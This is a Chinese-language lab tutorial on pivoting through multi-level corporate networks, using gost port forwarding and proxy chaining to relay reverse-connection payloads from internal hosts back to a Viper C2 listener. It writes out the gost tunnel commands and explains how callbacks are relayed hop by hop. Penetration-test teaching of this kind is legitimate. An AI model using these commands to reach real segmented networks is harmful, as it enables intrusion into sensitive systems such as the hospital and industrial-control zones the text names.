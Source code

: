 # 多级内网渗透(gost&viper)

## 什么是多级内网
标题中所说的多级内网,常见于各种大型企业.举个例子,如下图

![1630550347634-baccb576-4eec-48a5-bb6a-e84491c56502.webp](./img/zA3VWU0fC_2gXbKF/1630550347634-baccb576-4eec-48a5-bb6a-e84491c56502-926401.webp)

A网中一般是企业的DMZ区,里面有对外的web服务器,dns服务器等.

B网中一般是企业内网的服务器区,里面有域控服务器,内网OA等.

C网中一般是企业红区,里面有敏感信息存储的数据库,或者各种关键业务服务器.(比如医院的HIS,工业企业的工业控制器等)

这种网络中,A网可以连接互联网,B网可以连接A网和C网但是无法连接互联网,C网只能连接B网.



## Viper与gost结合渗透多级内网
实验环境网络配置如下:

![1630551064214-97c362b5-df0b-4020-9137-08009c9e87ba.webp](./img/zA3VWU0fC_2gXbKF/1630551064214-97c362b5-df0b-4020-9137-08009c9e87ba-752405.webp)

+ 上线192.168.146.1

![1633519701641-4158f4eb-b5a7-41ed-9248-ab5b87f6f7f3.webp](./img/zA3VWU0fC_2gXbKF/1633519701641-4158f4eb-b5a7-41ed-9248-ab5b87f6f7f3-609141.webp)

+ 在192.168.146.1上使用gost启动一个端口转发,把192.168.146.1:2000的流量转发到192.168.146.130:2000

```plain
gost.exe -L=tcp://:2000/192.168.146.130:2000
```

![1633519969293-8bd71c1e-97c3-4652-9f08-1f6a1d7e0bbc.webp](./img/zA3VWU0fC_2gXbKF/1633519969293-8bd71c1e-97c3-4652-9f08-1f6a1d7e0bbc-535294.webp)

+ 146.11执行回连到146.1:2000的payload,146.11上线(可以看到是通过146.1回连的)

![1633521049030-5a70991f-60c8-427d-9e2a-3abcd8668377.webp](./img/zA3VWU0fC_2gXbKF/1633521049030-5a70991f-60c8-427d-9e2a-3abcd8668377-203485.webp)



+ 上线146.12比较复杂,首先在146.1:8080上用gost启动一个代理

```plain
gost.exe -L :8080
```

![1633521265187-b601d41b-b54e-4e98-bb70-624c0b608f03.webp](./img/zA3VWU0fC_2gXbKF/1633521265187-b601d41b-b54e-4e98-bb70-624c0b608f03-791533.webp)

+ 然后在146.11上启动端口转发,流量经过146.1:8080这个代理

```plain
gost.exe -L=tcp://:2000/192.168.146.130:2000 -F 192.168.146.1:8080
```

![1633521438835-3074d19b-c71e-4df8-8156-30ef7bff3c29.webp](./img/zA3VWU0fC_2gXbKF/1633521438835-3074d19b-c71e-4df8-8156-30ef7bff3c29-277139.webp)

+ 146.12执行回连到146.11:2000的payload,146.12上线(可以看到146.12是通过146.1回连的)

![1633521514340-eba95781-9291-44f1-b5d5-47709d981332.webp](./img/zA3VWU0fC_2gXbKF/1633521514340-eba95781-9291-44f1-b5d5-47709d981332-116980.webp)



+ 146.12的payload连接146.11的2000端口后,146.11的gost会把流量加上代理头,然后发送到146.1:8080这个代理上,146.1:8080解析代理头,最终将流量发送到146.130:2000
